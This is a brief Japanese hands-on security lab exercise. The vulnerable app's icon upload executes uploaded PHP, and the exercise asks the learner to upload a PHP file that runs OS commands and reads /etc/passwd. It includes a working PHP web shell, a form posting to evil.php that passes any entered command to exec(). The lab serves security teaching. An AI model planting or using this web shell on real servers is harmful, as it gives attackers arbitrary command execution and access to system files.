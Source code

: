 ### 脆弱性の悪用


#### 脆弱なアプリケーションの起動

画面右下のターミナルで`docker-compose`と入力し，アプリケーションを立ち上げましょう．  
その後，画面右上の疑似ブラウザの更新ボタンを押すと脆弱なアプリケーションが表示されます．  

#### 攻撃

このアプリケーションには、ユーザーアイコンをアップロード機能に脆弱性があり、アップロードしたスクリプトファイル(php)が動作してしまいます。
その攻撃を元にPHPファイルを作成し、OSコマンドを実行して/etc/passwdを取得してください。

例
```PHP
$cmd = $_POST['cmd']!=""? $_POST['cmd']:"";
exec($cmd==""?"cd ../ && ls":$cmd, $outs);
echo '<div style="width:500px;height:500px;overflow:scroll;background-color:black;color:white;font-size:10px;">';
foreach ($outs as $key => $out) {
    echo $out.'<br>';
}
echo '</div>';
echo "<form action='evil.php'method='post'><input id='cmd' name='cmd'style='width:463px' type='text'/><input type='submit' style='background-color:black;color:white;'/></form>";
```
